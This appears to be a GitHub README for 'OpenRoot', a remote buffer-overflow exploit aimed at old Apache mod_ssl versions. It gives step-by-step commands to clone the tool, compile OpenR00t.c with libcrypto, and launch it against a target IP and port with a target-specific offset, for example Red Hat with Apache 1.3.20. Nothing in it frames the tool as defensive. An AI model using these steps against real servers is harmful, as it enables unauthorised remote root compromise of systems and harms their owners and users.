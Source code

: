 # Apache_mod_ssl-_2.8.7-_Remote-Buffer-Overflow
# OpenRoot
## Usage

1. Download OpenR00t.c
```
git clone https://github.com/rony926/OpenRoot.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenR00t OpenR00t.c -lcrypto
````

4. Running the Exploit
```
./OpenR00t
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6b option
./OpenR00t 0x6b [Target Ip] [port] -c 40

for example:
```
./OpenRoot 0x6b 192.168.80.145 443 -c 40
```
